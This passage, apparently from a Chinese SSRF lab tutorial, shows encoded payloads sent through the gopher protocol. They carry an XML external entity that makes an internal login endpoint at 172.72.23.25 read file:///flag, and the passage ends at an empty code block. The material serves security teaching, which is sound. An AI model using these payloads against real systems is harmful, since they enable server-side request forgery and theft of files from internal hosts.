 ```bash
%25%35%30%25%34%66%25%35%33%25%35%34%25%32%30%25%32%66%25%36%34%25%36%66%25%34%63%25%36%66%25%36%37%25%36%39%25%36%65%25%32%65%25%37%30%25%36%38%25%37%30%25%32%30%25%34%38%25%35%34%25%35%34%25%35%30%25%32%66%25%33%31%25%32%65%25%33%31%25%30%64%25%30%61%25%34%38%25%36%66%25%37%33%25%37%34%25%33%61%25%32%30%25%33%31%25%33%37%25%33%32%25%32%65%25%33%37%25%33%32%25%32%65%25%33%32%25%33%33%25%32%65%25%33%32%25%33%35%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%34%63%25%36%35%25%36%65%25%36%37%25%37%34%25%36%38%25%33%61%25%32%30%25%33%31%25%33%32%25%33%34%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%35%34%25%37%39%25%37%30%25%36%35%25%33%61%25%32%30%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%36%64%25%36%63%25%33%62%25%36%33%25%36%38%25%36%31%25%37%32%25%37%33%25%36%35%25%37%34%25%33%64%25%37%35%25%37%34%25%36%36%25%32%64%25%33%38%25%30%64%25%30%61%25%30%64%25%30%61%25%33%63%25%32%31%25%34%34%25%34%66%25%34%33%25%35%34%25%35%39%25%35%30%25%34%35%25%32%30%25%37%34%25%36%35%25%37%33%25%37%34%25%35%62%25%33%63%25%32%31%25%34%35%25%34%65%25%35%34%25%34%39%25%35%34%25%35%39%25%32%30%25%37%34%25%36%35%25%37%33%25%37%34%25%32%30%25%35%33%25%35%39%25%35%33%25%35%34%25%34%35%25%34%64%25%32%30%25%32%32%25%36%36%25%36%39%25%36%63%25%36%35%25%33%61%25%32%66%25%32%66%25%32%66%25%36%36%25%36%63%25%36%31%25%36%37%25%32%32%25%33%65%25%35%64%25%33%65%25%30%64%25%30%61%25%33%63%25%37%35%25%37%33%25%36%35%25%37%32%25%33%65%25%33%63%25%37%35%25%37%33%25%36%35%25%37%32%25%36%65%25%36%31%25%36%64%25%36%35%25%33%65%25%32%36%25%37%34%25%36%35%25%37%33%25%37%34%25%33%62%25%33%63%25%32%66%25%37%35%25%37%33%25%36%35%25%37%32%25%36%65%25%36%31%25%36%64%25%36%35%25%33%65%25%33%63%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%66%25%37%32%25%36%34%25%33%65%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%66%25%37%32%25%36%34%25%33%63%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%66%25%37%32%25%36%34%25%33%65%25%33%63%25%32%66%25%37%35%25%37%33%25%36%35%25%37%32%25%33%65
```



#### 使用gopher协议

##### 网页发送gopher

```
gopher://172.72.23.25:80/_%50%4f%53%54%20%2f%64%6f%4c%6f%67%69%6e%2e%70%68%70%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%31%37%32%2e%37%32%2e%32%33%2e%32%35%0d%0a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%31%32%34%0d%0a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%6d%6c%3b%63%68%61%72%73%65%74%3d%75%74%66%2d%38%0d%0a%0d%0a%3c%21%44%4f%43%54%59%50%45%20%74%65%73%74%5b%3c%21%45%4e%54%49%54%59%20%74%65%73%74%20%53%59%53%54%45%4d%20%22%66%69%6c%65%3a%2f%2f%2f%66%6c%61%67%22%3e%5d%3e%0d%0a%3c%75%73%65%72%3e%3c%75%73%65%72%6e%61%6d%65%3e%26%74%65%73%74%3b%3c%2f%75%73%65%72%6e%61%6d%65%3e%3c%70%61%73%73%77%6f%72%64%3e%70%61%73%73%77%6f%72%64%3c%2f%70%61%73%73%77%6f%72%64%3e%3c%2f%75%73%65%72%3e
```

![image-20240905141108874](https://image.201068.xyz/assets/29.SSRF/image-20240905141108874.png)

##### burp发送gopher

```
```
